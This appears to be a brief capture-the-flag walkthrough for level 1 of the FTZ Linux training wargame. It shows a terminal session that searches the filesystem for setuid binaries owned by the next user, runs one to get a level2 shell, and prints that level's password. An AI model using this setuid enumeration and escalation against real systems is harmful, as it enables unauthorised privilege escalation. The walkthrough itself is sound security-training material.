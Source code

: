 # Level1

`[level1@ftz level1]$ ls -l`  
total 12  
-rw-r--r--    1 root     root           47 Apr  4  2000 hint  
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html  
drwxrwxr-x    2 root     level1       4096 Jun  3 11:58 tmp  

`[level1@ftz level1]$ cat hint`  
Level2 권한에 setuid가 걸린 파일을 찾는다.

`[level1@ftz level1]$ find / -user level2 -perm -4000 2>/dev/null`  
/bin/ExecuteMe

`[level1@ftz level1]$ ls -l /bin/ExecuteMe`  
-rwsr-x---    1 level2   level1      12868 Aug 19  2014 /bin/ExecuteMe

`[level1@ftz level1]$ /bin/ExecuteMe`

`[level2@ftz level2]$ bash`

`[level2@ftz level2]$ my-pass`  
Level2 Password is "hacker or cracker".

